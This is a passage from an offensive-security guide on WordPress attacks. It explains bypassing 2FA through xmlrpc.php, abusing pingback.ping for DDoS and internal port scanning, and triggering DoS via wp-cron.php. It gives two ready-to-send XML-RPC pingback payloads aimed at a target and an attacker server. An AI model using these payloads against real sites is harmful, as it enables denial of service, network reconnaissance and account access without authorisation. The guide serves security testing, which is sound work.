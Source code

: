 **Bypass 2FA**

This method is meant for programs and not for humans, and old, therefore it doesn't support 2FA. So, if you have valid creds but the main entrance is protected by 2FA, **you might be able to abuse xmlrpc.php to login with those creds bypassing 2FA**. Note that you won't be able to perform all the actions you can do through the console, but you might still be able to get to RCE as Ippsec explains it in [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw&t=1130s)

**DDoS or port scanning**

If you can find the method _**pingback.ping**_ inside the list you can make the Wordpress send an arbitrary request to any host/port.\
This can be used to ask **thousands** of Wordpress **sites** to **access** one **location** (so a **DDoS** is caused in that location) or you can use it to make **Wordpress** lo **scan** some internal **network** (you can indicate any port).

```html
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

![](../../images/1_JaUYIZF8ZjDGGB7ocsZC-g.png)

If you get **faultCode** with a value **greater** then **0** (17), it means the port is open.

Take a look to the use of **`system.multicall`** in the previous section to learn how to abuse this method to cause DDoS.

**DDoS**

```html
<methodCall>
    <methodName>pingback.ping</methodName>
    <params>
        <param><value><string>http://target/</string></value></param>
        <param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
    </params>
</methodCall>
```

![[../../images/image (110).png]]

### wp-cron.php DoS

This file usually exists under the root of the Wordpress site: **`/wp-cron.php`**\
When this file is **accessed** a "**heavy**" MySQL **query** is performed, so I could be used by **attackers** to **cause** a **DoS**.\
Also, by default, the `wp-cron.php` is called on every page load (anytime a client requests any Wordpress page), which on high-traffic sites can cause problems (DoS).
